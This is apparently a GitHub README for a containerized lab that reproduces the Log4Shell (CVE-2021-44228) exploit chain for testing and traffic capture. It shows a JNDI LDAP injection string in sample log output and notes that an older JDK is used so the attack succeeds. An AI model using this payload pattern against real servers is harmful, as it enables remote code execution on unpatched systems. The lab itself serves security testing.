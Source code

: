 # Full-chain dockerized Log4Shell (CVE-2021-44228)

Log4Shell (CVE-2021-44228) is a critical vulnerability in the popular log4j2 logging package.
This vulnerability is extremely easy to exploit, and was fixed in log4j2 version 2.15.
This repository goal is to automate and construct the environment through a single click by using `docker-compose` and containers.
This could be useful for:

- Testing different java version easily.
- Testing different payloads without constructing heavy setups.
- Capturing easily the traffic for security protection measures.
- More.

The setup contains:

- `vuln` - A vulnarable code using log4j2
- `marshalsec` - An LDAP server serving the exploit to log4j JDNI request
- `http-server` - A simple python server serving the compiled exploit java class file

Further explanation can be reached here:
https://research.checkpoint.com/2021/the-laconic-log4shell-faq/
https://www.lunasec.io/docs/blog/log4j-zero-day/

## Usage

Build and run all the containers

```bash
sudo docker-compose up --build
```

Once everything is up and running, you could see the next message, indicating the exploit was successful:

```
marshalsec_1   | Send LDAP reference result for Exploit redirecting to http://http-server:8888/Exploit.class
vuln_1         | Hello from exploit!
vuln_1         | 17:26:26.531 [main] ERROR log4j - ${jndi:ldap://marshalsec:1389/Exploit}
```

Behind the scenes, the vulnerable code is requesting the `Exploit` class from the LDAP server, and executes it.
You can freely modify the [Exploit](exploit/Exploit.java) file to make custom exploits, or the [log4j](vuln/src/main/java/log4j.java) file to change the malicious log.

## Notes

In recent JDK version, the variable `com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` by default, thus stopping effectively the attack. Thats why I set the java version to older than that.
